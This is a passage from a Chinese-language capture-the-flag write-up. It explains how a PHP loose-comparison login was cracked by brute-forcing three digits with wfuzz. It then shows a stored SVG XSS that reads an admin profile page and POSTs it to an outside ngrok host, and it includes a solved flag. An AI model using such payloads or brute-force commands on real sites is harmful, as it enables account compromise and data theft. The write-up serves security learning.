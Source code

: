 另外如果false時會噴hint
> I CAN EVEN GIVE YOU A HINT XD
> 0006464640640064000646464640006400640640646400
  
回去看一下code，會發現這個output來自於`secret[i] & 0xc0`，加上這個secret是某個MD5 hash，所以只能是英文和數字，output是**0**的是`0-9`，而output是**64**的是`a-zA-Z`，所以能得出一個結論－**secret的前三byte是數字**。

再結合`==`的特性，只要**brute-force三位數數字**就能解了。
  
```sh
wfuzz -b otadmin="{\"hash\": FUZZ}" --hh=78 -c -z range,0-999 https://gameserver.zajebistyc.tf/admin/login.php
```

flag - `p4{wtf_php_comparisons_how_do_they_work}`

---

## Web 50 - [web 154p]

網站有`profile`和`report`兩個page，其中`/report`可以傳一個URL給他，不過只能是同個domain底下的，page也講得很明白了：
> admin will take a look, blah blah, you know what it means

看來就是要偷admin的cookie之類的，不過看了一下是`httpOnly`，好像又不太行？

再看一下`/profile`，可以填一些值和上傳圖片，上傳圖片會檢查header，不過我以為做一份header出來然後把
payload塞在後面就可以，結果傳完之後的URL還是被當作圖片來解析(即使副檔名是php之類)，改`Content-Type`也沒用，到現在還是不知道為何...
   
最後想到了**SVG XSS**，傳了普通的SVG上去後發現OK，接著就開始來踹踹看XSS：
(有圖片大小檢查要稍微注意)
```javascript
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg"  width="100px" height="100px" xml:space="preserve">                              
    <script>
    	alert(1);
    </script>
</svg>
```
成功觸發XSS!那麼接下來就要想想能怎麼利用這個XSS，在嘗試的過程發現可以拜訪其他人的profile(包括admin)，
但`secret`是看不到的，於是就猜想這個`secret`應該就是flag，往這個方向繼續構造payload
```javascript
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg"  width="100px" height="100px" xml:space="preserve">                              
    <script>
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
                var xhr2 = new XMLHttpRequest();
                xhr2.open("POST", "http://59d95a27.ngrok.io");
                xhr2.send(xhr.responseText);
            }
        }
        xhr.open("GET", "http://web50.zajebistyc.tf/profile/admin");
        xhr.withCredentials = true;
        xhr.send();
    </script>
</svg>
```
